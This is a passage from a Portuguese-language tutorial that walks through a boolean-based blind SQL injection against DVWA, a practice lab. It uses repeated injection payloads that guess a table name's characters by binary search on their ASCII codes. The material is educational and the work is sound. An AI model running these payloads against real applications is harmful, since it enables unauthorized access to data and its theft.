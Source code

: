 ```
1' AND ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1), 1, 1))>118 #
```

Novamente falso, então pode ser 116, 117 ou 118. Vamos testar com igualdade agora.

```
1' AND ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1), 1, 1))=117 #
```

Deu verdadeiro! Então o primeiro caractere é o correspondente ASCII 117, que é o `u`. Você pode ver isso na tabela no [man ascii](https://www.man7.org/linux/man-pages/man7/ascii.7.html).

O processo é esse para descobrir as informações. Vamos fazer novamente para o segundo caractere. Basta modificar no `SUBSTR()` o offset, agora sendo a segunda letra. Então o que é para ser enviado para o DVWA fica assim:

```
1' AND ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1), 2, 1))>79 #
```

Deu verdadeiro, então você já sabe o que isso significa, certo? Quer dizer que a segunda letra está no intervalo entre 79 e 127. Basta seguir o mesmo processo, vamos escolher um número intermediário, 103.

```
1' AND ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1), 2, 1))>103 #
```

Novamente sendo verdadeiro, então o caractere está no intervalo 103 e 127. Vamos tentar 115.

```
1' AND ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1), 2, 1))>115 #
```

Agora que deu falso, quer dizer que está no intervalo inferior, entre 103 e 115. Vamos escolher um número intermediário, 109.

```
1' AND ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1), 2, 1))>109 #
```

Com o resultado verdadeiro, sabemos que está entre 109 e 115. Vamos escolher 112.

```
1' AND ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1), 2, 1))>112 #
```

Certo, então deve estar entre 113, 114 ou 115. Vamos tentar com igualdade.

```
1' AND ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1), 2, 1))=113 #
```
